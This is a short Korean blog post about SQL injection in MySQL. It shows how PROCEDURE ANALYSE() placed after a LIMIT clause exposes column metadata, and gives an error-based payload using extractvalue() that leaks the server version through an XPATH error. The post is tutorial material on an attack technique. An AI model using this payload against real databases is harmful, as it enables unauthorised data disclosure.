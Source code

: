 ```yaml
---
layout: post
title: Procedure analyse()를 이용한 SQL Injection
date: 2015-09-07 10:52:00 +0900
category: Hacking 
---
```



```mysql
 [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]

```

limit 절 뒤에 사용가능한 함수는 그리 많지 않습니다. 그중에서도 SQL Injection에 쓰이는것은

procedure analyse()라는 함수입니다. 이 함수는 현재 실행중인 컬럼에 대한 정보를 사용가능하게 해줍니다.



이 함수를 이용하면 



```mysql

mysql> select * from user where id='admin' limit 1 procedure analyse();

+--------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------

------+

| Field_name         | Min_value | Max_value | Min_length | Max_length | Empties_or_zeros | Nulls | Avg_value_or_avg_length | Std  | Optimal_fieldtype

      |

+--------------------+-----------+-----------+------------+------------+------------------+-------+-------------------------+------+------------------

------+

| user.user.id       | admin     | admin     |          5 |          5 |                0 |     0 | 5.0000                  | NULL | ENUM('admin') NOT

 NULL |



```

좀 깨졌지만 이렇게 컬럼의 정보에 대해서 알 수 있다.





이렇게 현재 컬럼의 테이블명과 기타 정보들이 노출됩니다.

하지만 저 procedure analyse()함수 안에서도 다른 값을 뽑아낼 수 있습니다.



그중에서 사용되는 함수는 다양하지만 

extractvalue()라는 함수가 있습니다.




```mysql
mysql> SELECT * FROM user WHERE id='admin' limit 1 procedure analyse(extractvalue(1,concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.1.41-community'
mysql>
```



이렇게 하면 version을 뽑을 수 있습니다.

그 외에도 information_schema에 접근하여 DB와 테이블명에 대해서도 뽑아 올 수 있습니다. 



